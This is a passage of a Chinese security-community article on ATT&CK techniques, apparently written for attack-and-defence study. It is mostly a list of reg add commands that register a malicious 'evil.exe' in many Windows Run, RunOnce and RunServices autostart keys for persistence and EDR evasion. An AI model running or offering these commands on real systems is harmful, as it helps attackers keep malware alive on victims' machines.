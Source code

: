 

# ATT&CK 中的攻与防——T1574 - 先知社区

ATT&CK 中的攻与防——T1574

- - -

# 前言

此篇文章为 ATTCK 矩阵中的攻与防的第三篇，T1574 是 windows 里面常见的规避 EDR 常用的渗透横向技巧，大部分技巧在互联网上都有师傅们分享，笔者只是将其中的内容总结起来，以 ATT&CK 矩阵来探究其中的攻防之道，注册表在 windows 中一直扮演着极其重要的角色，如若文章有技术问题，欢迎各位师傅在评论区交流

# T1547.001 (Persistence,Registry Run Keys / Startup Folder)

通过对注册表的修改，达到一个开机自启动的效果，形成权限维持或者权限提升亦或者 EDR 的规避  
最常见的就是我们的**run&&runonce**这 2 个注册表键值

```bash
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```

将/d 的值换成恶意文件的位置，就可以达成开机自启动，runonec 开机一次就会移除服务  
当然，如果有些键值确实存在，我们想要新增，要想跳过此次确认，可以/f 强制添加  
[![](assets/1706145586-f25d3a6ec79b587c9f1daa0f50f2fe0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124110912-f2cb0f54-ba65-1.png)

对于 reg 操作相关注册表，我们可以通过 query，查看相关键值的具体值，其余相关的注册表位置

```bash
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\congya\axingg\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\runOnce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```
